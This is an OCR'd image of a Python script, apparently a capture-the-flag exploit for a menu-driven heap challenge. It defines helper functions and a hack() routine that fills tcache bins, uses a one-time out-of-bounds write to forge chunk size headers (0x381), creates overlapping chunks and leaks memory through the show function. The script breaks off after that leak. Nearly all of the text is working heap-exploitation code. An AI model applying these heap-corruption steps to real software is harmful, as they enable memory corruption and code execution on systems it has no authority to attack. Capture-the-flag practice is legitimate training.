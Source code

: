 ```python
def delete(idx):
  sla(': ','2')
  if idx == 0:
    sla('Instrument: ','\xe7\x90\xb4')
  else:
    sla('Instrument: ','\xe7\x91\x9f')


def show(idx):
  sla(': ','3')
  if idx == 0:
    sla('Instrument: ','\xe7\x90\xb4')
  else:
    sla('Instrument: ','\xe7\x91\x9f')

def oob_once(data):
  sla(': ','5')
  ru('\xe5\x90\x88\x3a\x20')
  sl(str(data))

def hack():
  raw_input()
  for i in range(7):
    add(0x80,'a'*0x80,0)
    delete(0)

  for i in range(6):
    add(0xa0,'a'*0xa0,0)
    delete(0)

  for i in range(7):
    add(0x370,'a'*0x370,0)
    delete(0)

  for i in range(7):
    add(0x1f0,'a'*0x1f0,0)
    delete(0)

  add(0x1f0,'a'*0x1f0,0)
  add(0x90,'a'*0x90,1)
  delete(1)
  add(0x80,'a'*0x80,1)
  delete(0)
  add(0x400,'b'*0x400,0)
  delete(1)

  add(0x140,'a'*0x140,1)
  delete(1)
  #add(0x100,'a'*0x100,0)
  #delete(0)

  payload = (p64(0) + p64(0x21))*0x40
  add(0x400,payload,1)
  oob_once(0xf1)
  delete(0)
  add(0x300,'c'*0x300,0)
  delete(0)
  payload = 'c'*0xf0 + p64(0) + p64(0x381)
  payload = payload.ljust(0x120,'\x00')
  add(0x120,payload,0)
  delete(1)
  show(0)
  ru('\xe7\x90\xb4\x3a\x20')
```